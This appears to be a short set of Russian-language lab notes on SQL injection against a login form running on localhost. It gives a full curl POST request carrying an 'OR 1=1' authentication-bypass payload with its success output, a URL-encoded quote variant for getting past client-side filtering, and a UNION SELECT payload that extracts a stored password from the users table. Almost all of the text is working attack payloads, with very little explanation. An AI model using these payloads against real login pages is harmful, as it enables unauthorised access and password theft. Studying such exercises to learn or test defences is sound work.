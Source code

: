 # Обход клиентской защиты с помощью curl
```
>curl "http://localhost:8080/signin" -X POST -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" -H "Accept-Language: en,en-US;q=0.5" -H "Accept-Encoding: gzip, deflate, br" -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://localhost:8080" -H "DNT: 1" -H "Connection: keep-alive" -H "Referer: http://localhost:8080/login.html" -H "Upgrade-Insecure-Requests: 1" -H "Sec-Fetch-Dest: document" -H "Sec-Fetch-Mode: navigate" -H "Sec-Fetch-Site: same-origin" -H "Sec-Fetch-User: ?1" -H "Sec-GPC: 1" --data-raw "name=1' OR 1=1--&pass=1&banned=false"

<success User1
```
# Обход защиты с помощью кодирования кавычки в альтернативный формат
Пароль:
```
1%27 OR 1=1--
```
# Кража пароля из БД
Имя: User1
Пароль:
```
1%27) or 1=1 union select (select min(pass) from users) order by 1 asc limit 1--
```